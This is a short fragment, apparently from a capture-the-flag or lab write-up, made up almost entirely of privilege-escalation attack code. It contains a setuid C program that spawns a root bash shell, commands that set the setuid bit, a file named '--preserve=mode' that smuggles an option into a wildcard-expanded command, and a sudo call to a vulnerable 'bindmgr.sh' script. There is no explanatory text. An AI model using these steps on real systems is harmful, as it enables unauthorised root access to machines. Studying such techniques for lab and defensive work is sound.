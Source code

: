 ```C
int main(){
	setuid(0); 
	system("/bin/bash -i"); 
}
```

```bash
chmod +x getpwn
chmod u+s getpwn
touch -- --preserve=mode
```

```bash
sudo /usr/local/bin/bindmgr.sh
``` 